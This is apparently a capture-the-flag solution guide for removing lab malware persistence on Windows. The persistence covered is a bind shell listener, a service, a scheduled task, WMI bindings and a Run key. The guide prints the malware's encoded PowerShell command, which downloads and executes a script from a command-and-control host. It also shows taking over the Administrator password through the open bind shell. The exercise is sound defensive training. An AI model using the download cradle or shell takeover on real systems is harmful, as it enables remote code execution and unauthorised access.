

# I HAVE THE POWERRRRR! (shell) 

_Solution Guide_

## Overview

The system has been infected with a persistent malware that is opening up a bind shell listener.  Stop and remove the persistence methods and close the listener.  The persistence methods periodically recreate themselves. You must remove persistence in a way that prevents **all** mechanisms from coming back.

_Powerrrrr!_ has a number of tasks that can be remedied in different sequences.  Each malware mechanism recreates itself and others, so deleting one at a time won't work.  The mechanisms that need to be remediated for grading are as follow:

1. Disable the bind shell listener
2. Disable Windows Service persistence
3. Disable Scheduled Task persistence
4. Disable Windows Management Instrumentation (WMI) persistence
5. Disable `Run` registry value persistence

Mechanisms #2 through #5 above contact a command-and-control server every minute and run a remote script that recreates all the mechanisms and opens the listener again.

There are multiple ways to find artifacts: use `C:\ProgramData\chocolatey\bin\autorunsc64.exe`; PowerShell search commands; or, use CMD.exe.

## Question 1

*Enter the token for Remediation 1: removing the attacker's access vector*

#### Disabling the bind shell listener:

From Grayskull, perform a `sudo nmap` command to find an open port on `10.5.5.79` . The open port is 3333, left open by the malware. This gives you a PowerShell prompt. Run the following commands:

```
sudo nmap 10.5.5.79
netcat 10.5.5.79 3333
```


Give yourself **ssh** or another method of access because we want to kill the listener we're connected to. We can't change the `user` account, so we will see what other accounts are available. Run `net user`.


Let's change the password on the **Administrator** account: `net user Administrator Password1234`


Enter `exit` to exit PowerShell and return the Kali command prompt. Now, we can SSH into **10.5.5.79**:

 `SSH Administrator@10.5.5.79`

...using the password you just created. 

At the **administrator@ETERNIA** prompt, enter `powershell`. 

> Note: This solution guide uses PowerShell commands to demonstrate one way of solving _Powerrrrr!_

Let's see what is listening on which port: `netstat -ano -p tcp`


Look at port 3333 and find the process and the path: `Get-Process -id 3416 |select Path` (your PID will be different).


As denoted by the **:search.exe** portion of the path, the program is running in an Alternate Data Stream. `cd` into `C:\Windows.old` to see what else is in that folder (`ls`). 

>Note: Stopping **explorer.exe:search.exe** will allow you to pass grading check #1; however, you will lose connection to port 3333 and the malicious process will start back up because of the way the challenge is designed.


Review the Python script: `Get-Content .\service.py`


**service.py** is running an encoded PowerShell command every minute. Decode it by:

```
$encoded = 'SQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAKAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4ANQAuADUALgA1ADcALwByAHUAbgBtAGUALgBwAHMAMQAnACkAKQA='                                                                                                    
$decoded = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($encoded))

$decoded
```


The **Invoke-Expression** command is running **runme.ps1**.  Go to http://10.5.5.57 from Grayskull's browser to download and examine **runme.ps1** if you like.

**Runme.ps1** creates the listener by downloading the **search.exe** file and it is also creating a Scheduled Task, a Windows Service, and a WMI command trigger.

You can write your own script to remove all of these triggers at once and stop them, or by examining **runme.ps1**, you can see it only checks for the presence of the triggers before (re)creating them. **Runme.ps1** does not verify that the triggers are functioning.  For the purpose of this solution guide, we'll disable the triggers one by one and prevent the process from recreating the persistence.

## Question 2

*Enter the token for Remediation 2: removing persistence mechanism A*

#### Disabling Windows Service persistence:

The Windows service can be stopped or disabled as the script only checks if it exists. At the PowerShell prompt, enter: 
```
Stop-Service -Name "search helper"
```
The above command stops the Windows service. Next, disable the command to prevent it from restarting. Enter: 
```
Set-Service -Name "search helper" -StartupType Disabled
```
You can see status with the **Get-Service** command:
```
Get-Service -Name "search helper"
```
Adding `| Select StartType` to the command verifies that the service is disabled:
```
Get-Service -Name "search helper' | Select Starttype
```


## Question 3

*Enter the token for Remediation 3: removing persistence mechanism B*

#### Disabling Scheduled Task persistence:

The Script is only checking if the scheduled task exists, so once again we can disable it:

```
Disable-ScheduledTask -Taskname "Start Jobs"
```


## Question 4

*Enter the token for Remediation 4: removing persistence mechanism C*

#### Disabling WMI persistence:

If you examine the remote PowerShell script, **runme.ps1**, you'll see that the WMI object checks are only on the `EventFilter` and `EventConsumer`, but not the binding.  Let's break it:

```
Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding -Filter "__Path LIKE '%Run Helper%'" | Remove-WmiObject -Verbose
```


## Question 5

*Enter the token for Remediation 5: removing persistence mechanism D*

#### Disabling `Run` registry  value persistence:

To see the registry keys, run:
```
Get-Item -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\'
```
You'll note right away the key we want to delete:



Run the command to remove, then run the command to verify that the offending key is gone:
```
Remove-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\' -Name "Helper" 
```


## Tokens

Tokens will be provided after scoring checks at https://challenge.us. In the gamespace, browse to https://challenge.us and click the Grade Challenge button to get grading results.
